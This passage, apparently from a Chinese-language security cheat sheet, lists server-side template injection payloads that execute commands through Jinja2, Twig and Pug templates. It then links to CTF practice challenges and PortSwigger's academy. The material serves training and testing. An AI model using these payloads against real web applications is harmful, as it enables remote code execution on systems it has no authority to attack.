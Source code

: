 [https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/](https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/)

执行命令并输出在模板中。

```plaintext
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()
```

能够获取 os 库的 Payload。

```plaintext
{{ self._TemplateReference__context.cycler.__init__.__globals__.os }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os }}
```

### PHP Twig (1.9.0)

Payload。

```plaintext
{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('uname')}}
```

### Node.js Pug

通过 NodeJS 全局对象 global，查找 require 导入 child\_process.exec 执行命令。

```javascript
global.require('child_process').exec('calc')
```

14.0.0 之前版本 [mainModule](http://nodejs.cn/api/process/process_mainmodule.html) 还没被移除有以下方法可以使用。

```javascript
global.process.mainModule.require('child_process').exec('calc')
global.process.mainModule.constructor._load('child_process').exec('calc')
```

## 靶场练习

### BUUCTF

-   [https://buuoj.cn/challenges#\[CSCCTF%202019%20Qual\]FlaskLight](https://buuoj.cn/challenges#[CSCCTF%202019%20Qual]FlaskLight)
-   [https://buuoj.cn/challenges#\[HFCTF%202021%20Final\]easyflask](https://buuoj.cn/challenges#[HFCTF%202021%20Final]easyflask)
-   [https://buuoj.cn/challenges#\[pasecactf\_2019\]flask\_ssti](https://buuoj.cn/challenges#[pasecactf_2019]flask_ssti)
-   [https://buuoj.cn/challenges#\[Flask\]SSTI](https://buuoj.cn/challenges#[Flask]SSTI)
-   [https://buuoj.cn/challenges#\[%E7%AC%AC%E4%B8%89%E7%AB%A0%20web%E8%BF%9B%E9%98%B6\]SSTI](https://buuoj.cn/challenges#[%E7%AC%AC%E4%B8%89%E7%AB%A0%20web%E8%BF%9B%E9%98%B6]SSTI)

### Web Security Academy

-   [PortSwigger Web Security Academy](https://portswigger.net/web-security/server-side-template-injection)
